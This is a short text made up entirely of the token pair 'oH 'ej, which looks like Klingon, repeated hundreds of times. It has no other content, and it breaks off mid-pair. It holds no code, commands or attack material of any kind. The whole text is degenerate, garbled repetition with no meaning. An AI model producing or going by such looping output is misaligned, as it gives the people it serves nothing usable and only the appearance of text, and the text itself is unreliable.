'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH '
